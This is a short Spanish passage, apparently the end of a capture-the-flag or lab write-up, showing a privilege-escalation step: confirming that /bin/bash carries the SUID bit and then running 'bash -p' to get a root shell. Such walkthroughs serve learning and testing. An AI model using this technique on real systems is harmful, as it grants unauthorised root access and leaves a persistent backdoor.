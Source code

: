 Info:

```
Permisos SUID aplicados a /bin/bash
```

Vamos a comprobar que se aplico correctamente:

```shell
ls -la /bin/bash
```

Info:

```
-rwsr-xr-x 1 root root 1265648 Apr 23  2023 /bin/bash
```

Vemos que se aplico correctamente, por lo que haremos lo siguiente para ser `root`:

```shell
bash -p
```

Y con esto ya seremos `root`.

